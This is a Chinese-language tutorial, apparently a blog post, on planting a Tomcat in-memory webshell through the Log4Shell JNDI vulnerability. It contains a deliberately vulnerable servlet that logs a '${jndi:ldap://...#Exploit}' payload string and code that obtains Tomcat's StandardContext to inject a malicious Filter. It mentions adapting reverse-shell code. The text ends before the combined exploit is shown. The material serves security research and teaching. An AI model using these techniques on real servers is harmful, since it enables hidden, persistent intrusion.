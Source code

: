 ## 基于JNDI的内存马植入 - 以CVE-2021-44228 Log4Shell为例

> 关于CVE-2021-44228的分析，可以参见我之前的讲解文章，由于我使用remote codebase方法，本节只能使用jdk
> 8u181及以下的版本

### 准备Tomcat脆弱环境

首先在Tomcat项目的`pom.xml`中加入log4j-core 2.14.1的依赖，然后我们再写一个触发log4j漏洞的Servlet

> 直接在自动创建的HelloServlet上修改即可

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package com.example.JavaWebDemo;  
    import org.apache.logging.log4j.LogManager;import org.apache.logging.log4j.Logger;  
    import javax.servlet.annotation.WebServlet;import javax.servlet.http.HttpServlet;import javax.servlet.http.HttpServletRequest;import javax.servlet.http.HttpServletResponse;import java.io.IOException;import java.io.PrintWriter;  
    @WebServlet(name = "helloServlet", value = "/hello-servlet")public class HelloServlet extends HttpServlet {    private String message;  
        public void init() {        message = "Hello World!";    }  
        public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {  
            Logger logger = LogManager.getLogger();        logger.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");  
            response.setContentType("text/html");        PrintWriter out = response.getWriter();        out.println("<html><body>");        out.println("<h1>" + message + "</h1>");        out.println("</body></html>");    }}

### 构造Exploit

我们只尝试增加Filter，增加Servlet和Listener的方法也比较相似，不重复讨论

接下来按照我之前的CVE-2021-44228分析中的方法触发JNDI漏洞，我们将反弹Shell的代码进行修改

这时候遇到一个难点，之前我们使用JSP获取内存马，可以发现，往Tomcat中注入内存马的核心是需要获取到StandardContext实例，之前JSP会自动放进去一个request对象，可以用于获取StandardContext，但是此时没有这个便捷的方式，所以我们要另寻出入了

参考这篇文章：Java内存马：一种Tomcat全版本获取StandardContext的新方法 - 先知社区 (aliyun.com)

由于我们使用Tomcat9，此处我们使用”从ContextClassLoader获取”的方式为例来获取`StandardContext`，代码如下

  *   * 

    
    
    WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();

整合Exploit，代码如下

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
